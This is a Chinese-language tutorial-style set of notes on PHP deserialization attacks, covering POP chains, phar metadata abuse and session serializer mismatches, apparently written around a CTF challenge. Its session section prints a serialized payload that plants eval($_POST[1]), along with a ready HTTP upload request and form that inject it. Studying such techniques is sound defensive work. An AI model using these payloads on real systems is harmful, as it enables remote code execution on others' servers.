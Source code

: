 # php反序列化

## pop链的构造

### 基础

通过替换类中的变量来执行相同函数名字带有敏感操作的函数

所以找反序列化洞的时候一般可以重点关注两个魔术方法：`__wakeup()`(反序列化的初始化调用),`__destruct()`

当然wakeup是可以绕过的，具体可以看看



### 技巧

1.找到反序列化点2.寻找可利用的魔术方法(如`__destruct()`,`__wakeup()`)3.寻找可利用魔术方法调用函数

绕过`__wakeup()`:`CVE-2016-7124`

获取已经包含的文件：
get_included_files()
获取已经定义的类：
get_declared_classes()
加载所有类
__autoload()

## php原生类反序列化

### phar

 https://blog.zsxsoft.com/post/38?from=timeline&isappinstalled=0 

https://paper.seebug.org/680/

#### 原理

部分文件操作函数用phar伪协议读取phar文件会反序列化phar文件中的meta-data 部分的序列化内容

#### phar文件结构

- a **stub**
  可以理解为一个标志，格式为`xxxxxxxxx; __HALT_COMPILER();?>`，前面内容不限，但必须以`__HALT_COMPILER();?>`来结尾，否则phar扩展将无法识别这个文件为phar文件。

- a **manifest** describing the contents
  phar文件本质上是一种压缩文件，其中每个被压缩文件的权限,属性等信息都放在这部分。这部分还会以**序列化**的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

- the file **contents**
  被压缩文件的内容。

- [optional] a **signature** for verifying Phar integrity (phar file format only)

  签名，放在文件末尾

#### 影响函数

```php
fileatime|filectime|file_exists|file_get_contents|file_put_contents|file|filegroup|fopen|fileinode|filemtime|fileowner|fileperms|is_dir|is_executable|is_file|is_link|is_readable|is_writable|is_writeable|parse_ini_file|copy|unlink|stat|readfile|md5_file|filesize|mime_content_type
```

```
fileatime / filectime / filemtimestat / fileinode / fileowner / filegroup / filepermsfile / file_get_contents / readfile / fopen / file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is_writable / parse_ini_file / unlink / copy / include

exif_thumbnail / exif_imagetype / imageloadfont / imagecreatefrom
hash_hmac_file / hash_file / hash_update_file / md5_file / sha1_file

get_meta_tagsget_headers
getimagesize / getimagesizefromstring

finfo_file/finfo_buffer/mime_content_type
```



#### phar文件生成demo

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub,只要后面部分为__HALT_COMPILER(); ?>就行,开头可以随意
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```



### 绕过对phar文件内容的限制



`phar://phar.phar/test.txt`

`将phar文件压缩后便可以绕过文件限制`



## session的序列化引擎配置错误导致的命令执行

### 利用条件

1. php.ini中设置session.serialize_handler为php_serialize
2. 启动session
3. 某个网页的session.serialize_handler为php

### 原理

在php.ini中存在三项配置项：

```
session.save_path=""   --设置session的存储路径
session.save_handler="" --设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.auto_start   boolen --指定会话模块是否在请求开始时启动一个会话,默认为0不启动
session.serialize_handler   string --定义用来序列化/反序列化的处理器名字。默认使用php
```

`session.serialize_handler`是用来设置session的序列话引擎的，除了默认的PHP引擎之外，还存在其他引擎，不同的引擎所对应的session的存储方式不相同。

- php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
- php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值

我们这里主要关注php和php_serialize(php>5.5.4)

我们可以发现,如果我们存储用的引擎是php_serialize,而读取用的引擎是php时,我们可以构造如`$_SESSION['a']='|O:5:"OowoO":1:{s:4:"mdzz";s:16:"eval($_POST[1]);";}'`

,这个在文件中的存储为

```
a:1:{s:2:"en";s:43:"|O:5:"OowoO":1:{s:4:"mdzz";s:10:"phpinfo();";}
```

这样如果用php引擎解析的话,就不被理解成:键名为`a:1:{s:2:"en";s:43:"`，值为`O:5:"OowoO":1:{s:4:"mdzz";s:10:"phpinfo();";}`反序列化的结果,也就是一个对象

这样我们就成功的反序列化了

### 和它搭档的php配置



![image.png](https://i.loli.net/2019/10/11/8ajOXlMD9fybx6W.png)

> 当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据。所以可以通过Session Upload Progress来设置session。



eg.

```
POST /phpinfo.php HTTP/1.1
Host: web.jarvisoj.com:32784
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------168279961491
Content-Length: 1067
DNT: 1
Connection: close
Referer: http://127.0.0.1/
Cookie: PHPSESSID=d0vqrh2ejn9el54i1en9cnev43
Upgrade-Insecure-Requests: 1

-----------------------------168279961491
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
-----------------------------168279961491
Content-Disposition: form-data; name="aaa"; filename='|O:5:"OowoO":1:{s:4:"mdzz";s:16:"eval($_POST[1]);";}'
Content-Type: text/html

aaaaaa
-----------------------------168279961491--
```

在本地测试发现filename和name 还有一些其他的会写入到session里

产生这种情况的html页面

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

